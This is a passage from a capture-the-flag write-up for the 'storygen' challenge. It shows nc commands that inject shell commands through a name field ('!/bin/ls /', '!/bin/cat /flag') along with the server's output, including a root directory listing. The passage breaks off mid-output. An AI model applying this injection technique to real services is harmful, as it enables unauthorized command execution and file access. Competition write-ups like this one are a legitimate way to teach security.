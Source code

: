 ```
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


/tmp/script.sh

.:
chal.py


Do you want to hear the personalized, procedurally-generated story?
```

Success! A quick exploration reveals the flag in the root directory:
```
$ echo -ne '!/bin/ls /\x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


/tmp/script.sh

/:
bin
boot
dev
etc
flag               # <-------- here it is
get_flag           # <-------- what's this?
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
We attempt to cat the flag:
```
$ echo -ne '!/bin/cat /flag\x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
```